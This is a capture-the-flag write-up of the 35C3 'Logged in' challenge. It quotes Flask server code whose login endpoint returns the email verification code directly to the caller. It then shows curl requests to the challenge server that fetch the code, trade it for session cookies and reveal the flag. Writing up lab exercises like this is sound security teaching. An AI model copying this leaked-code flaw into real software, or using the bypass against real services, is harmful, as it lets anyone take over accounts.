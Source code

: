 # Logged in

> Solves: 180

> Phew, we totally did not set up our mail server yet. This is bad news since nobody can get into their accounts at the moment... It'll be in our next sprint. Until then, since you cannot login: enjoy our totally finished software without account.
> http://35.207.132.47/

> Difficulty Estimate: Easy

This is one of the [Wee](../Wee) challenges.

## Analysis

The application allows us to create an account but when we try to log in we get
prompted for a code which was supposedly sent to the specified email (but
wasn't). If we take a look at the [server source](../Wee/server.py) we find that
the code can be retrieved by calling the `/api/login` endpoint:

```python
@app.route("/api/login", methods=["POST"])
def login():
    print("Logging in?")
    # TODO Send Mail
    json = request.get_json(force=True)
    login = json["email"].strip()
    try:
        userid, name, email = query_db("SELECT id, name, email FROM users WHERE email=? OR name=?", (login, login))
    except Exception as ex:
        raise Exception("UserDoesNotExist")
    return get_code(name)
```

At the same time we can see that the flag is going to be sent to us in cookeis
once we log in:

```python
@app.route("/api/verify", methods=["POST"])
def verify():
    code = request.get_json(force=True)["code"].strip()
    if not code:
        raise Exception("CouldNotVerifyCode")
    userid, = query_db("SELECT userId FROM userCodes WHERE code=?", code)
    db = get_db()
    c = db.cursor()
    c.execute("DELETE FROM userCodes WHERE userId=?", (userid,))
    token = random_code(32)
    c.execute("INSERT INTO userTokens (userId, token) values(?,?)", (userid, token))
    db.commit()
    name, = query_db("SELECT name FROM users WHERE id=?", (userid,))
    resp = make_response()
    resp.set_cookie("token", token, max_age=2 ** 31 - 1)
    resp.set_cookie("name", name, max_age=2 ** 31 - 1)
    resp.set_cookie("logged_in", LOGGED_IN)
    return resp
```

## Solution

When we already have an account it's enough to retrieve the code. The entire
process including registration is shown below:

```
liquid$> curl -X POST http://35.207.132.47//api/signup -d '{ "email": "liquid@hts", "name": "liquid" }'
{"success":true}
liquid$> curl -X POST http://35.207.132.47/api/login -d '{ "email": "liquid" }'
yrbkma
liquid$> curl -X POST http://35.207.132.47/api/verify -d '{ "code": "yrbkma" }' -c -
# Netscape HTTP Cookie File
# https://curl.haxx.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

35.207.132.47   FALSE   /       FALSE   3694028367      token   hkqljigzzafwdrampwkpzvddhvvtdvyz
35.207.132.47   FALSE   /       FALSE   3694028367      name    liquid
35.207.132.47   FALSE   /       FALSE   0       logged_in 35C3_LOG_ME_IN_LIKE_ONE_OF_YOUR_FRENCH_GIRLS
```
